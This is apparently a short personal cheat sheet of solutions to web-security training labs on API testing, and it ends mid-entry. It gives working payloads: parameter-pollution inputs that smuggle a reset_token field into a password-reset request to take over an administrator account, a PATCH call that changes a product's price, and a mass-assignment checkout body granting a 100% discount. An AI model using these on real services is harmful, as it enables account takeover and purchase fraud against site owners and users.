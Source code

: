
# API Testing
/api

**Exploiting an API endpoint using documentation**
`PATCH /api` `GET /api`

---
**Exploiting server-side parameter pollution in a query string**

    delete carlos
    Forgot password?
    /static/js/forgotPassword.js
1. send admin forgot password request
2. at POST /forgot-password
```
username=administrator%26field=x%23
username=administrator%26field=reset_token%23
GET /forgot-password?reset_token=RESPONSE_FROM_ABOVE
```
---
**Finding and exploiting an unused API endpoint**

    buy jacket
    /api/products/1/price
1. try `OPTIONS`
2. `PATCH /api/product/1/price` with params price and value
---
**Exploiting a mass assignment vulnerability**

    buy jacket
    /api/checkout
1. adjust `POST /api/checkout`
```json
{
    "chosen_discount":{
        "percentage":100
    },
    "chosen_products:":[
        {
            "product_id":"1",
            "quantity":1
        }
    ]
}
```
---
**Exploiting server-side parameter pollution in a REST URL** !EX

    delete carlos
    Forgot password?
    /static/js/forgotPassword.js
    forgotPwdReady(() =>
